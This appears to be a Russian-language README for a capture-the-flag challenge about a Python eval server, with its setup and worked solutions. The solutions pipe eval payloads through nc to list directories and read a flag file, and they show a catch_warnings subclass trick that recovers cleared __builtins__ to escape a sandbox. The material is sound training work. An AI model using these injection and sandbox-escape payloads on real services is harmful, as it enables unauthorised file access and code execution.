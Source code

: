 Python eval
===========
**eval**
> Боб настолько любит Python, что не может прожить без него ни дня, но что делать если на новом рабочем компьютере Боба Python еще не установлен?  
> Боб написал небольшой скрипт, который принимает строку кода и исполняет ее, и запустил его у себя дома. Теперь Боб может в любое время писать код. Но, к сожалению, он не знал, что его код не безопасен. Говорят на его домашнем компьютере лежат секретные данные. Заполучите их!  

---

**eval again**
> К сожалению, кто-то взломал сервер, уже знакомого вам Боба, и секретные данные с его компьютера попали в сеть. Из-за этого он лишился работы и, как мы подозреваем, стал работать на тайную организацию, целью которой является - захват Мира.  
> Несмотря на то, что Боб улучшил защиту сервера, вам придется вновь взломать его, постарайтесь исправить то, что вы натворили в прошлый раз.  

Файлы
-----
1. **eval.py** - Псевдо исходный код, который доступен участникам
2. **eval2.py** - Псевдо исходный код для "again", который доступен участникам
3. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
4. **blacklist.txt** - Файл с запрещенными словами
5. **server.py** - Исходный код
6. **server2.py** - Исходный код "again" версии

Запуск
------
```
python3 server.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Имя хоста, по умолчанию - socket.gethostname()  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
Единственное отличие "again" версии от обычной в том, что теперь закрыт доступ не только к глобальным переменным, но и к \__builtins__

---

Решение
-------
1. Получить список файлов в папке  
    ```
    echo "__import__('os').listdir()" | nc адрес порт
    ```
2. Прочесть флаг  
    ```
    echo "open('имя файла с флагом').read()" | nc адрес порт
    ```  

Решение "again" версии
------------------
1. Научиться получать доступ к \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)  

[Еще полезная ссылочка](http://www.floyd.ch/?p=584)

